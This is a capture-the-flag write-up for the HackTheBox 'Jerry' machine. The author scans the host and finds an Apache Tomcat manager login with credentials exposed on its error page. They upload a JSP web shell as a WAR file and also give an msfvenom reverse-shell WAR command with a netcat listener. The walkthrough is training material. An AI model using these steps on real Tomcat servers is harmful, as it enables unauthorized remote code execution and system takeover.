







# HackTheBox - Jerry Writeup


Box author | 

<!--more-->

## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.




### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 




## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.




If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 




To spawn the shell, just click the `/webshell` path in the table. 




WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```



The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_



